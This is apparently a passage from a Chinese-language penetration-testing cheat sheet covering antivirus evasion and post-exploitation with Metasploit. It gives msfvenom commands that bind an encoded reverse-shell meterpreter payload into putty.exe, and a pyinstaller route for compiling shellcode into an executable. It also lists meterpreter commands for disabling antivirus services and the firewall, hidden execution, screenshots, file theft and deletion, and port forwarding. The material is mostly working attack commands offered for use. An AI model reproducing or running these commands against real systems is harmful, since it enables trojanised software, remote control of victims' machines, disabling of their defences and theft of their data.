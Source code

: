 


### 【免杀模块】

* **捆绑免杀**
  * 生成payload
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=本地IP LPORT=本地端口 -e x86/shikata_ga_nai -x putty.exe -i 15 -f exe -o payload.exe
    ```
    -e x86/shikata_ga_nai 参数为使用shikata编码免杀
    -x putty.exe 捆绑软件
    -i 15 进行15次编码
    -o payload.exe 输出捆绑好的软件
    
* **shellter免杀**
  * shellcode代码注入工具，网站：https://www.shellterproject.com/download


* **免杀msfpayload**
  * （1）生成py文件的shellcode：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=本地IP LPORT=本地端口 -i 11 -f py -o msf.py
    ```
  
  * （2）使用python免杀模板，将msf.py中的shellcode复制进模板中
  * （3）对含有shellcode的模板进行编译，编译成exe文件：
    ```bash
    pyinstaller.py --console --onefile msf.py
    ```
    
  * （4）侦听端口


&nbsp;


## 后渗透模块

### 【meterpreter模块】

* **基本命令**
  * 进程迁移：meterpreter> migrate 迁移的进程ID（一般迁移到同等权限的进程）
  * 关闭杀软：C:\Users\lenovo> sc config "服务名称" start=disable （原理是关闭杀软的一个服务，使之不能正常工作，但是会丢失连接）
  * 通过shell关闭防火墙：C:\Users\lenovo> netsh adcfirewall set allprofiles state off
  * 查看目标机流量：meterpreter> run packettrecorder -i 1
  * 提取系统信息：meterpreter> run scraper
  * 查看进程：meterpreter> ps
  * 截屏：meterpreter> screenshot

* **操作命令**
  * 查看文件：meterpreter>cat c:\boot.ini
  * 删除文件：meterpreter>del c:\boot.ini
  * 上传文件：meterpreter>upload /root/desktop/test.exe c:\
  * 下载文件：meterpreter>download c:\\boot.ini /root/
  * 编辑文件：meterpreter>edit c:\boot.ini
  * 搜索文件：meterpreter>search -d c:\ -f *.doc（在c盘下搜索文件后缀为doc的文件）
  * 隐藏执行应用程序：meterpreter>execute -H -f notepad.exe（-H为隐藏后台，-f为要运行的程序）
  >可以将powershell命令写入.bat文件中，上传执行，避免指令过长导致无法执行的问题

* **端口转发**
  * 创建端口转发：meterpreter>portfwd add -l 1188 -r 192.168.1.102 -p 3389（add为增加一个端口转发，-l为监听的本地端口，-r为要连接的远程主机IP，-p为要连接的远程主机端口）
  * 连接本地端口，进行连接：meterpreter>rdesktop 127.0.0.1:1188
    
    
    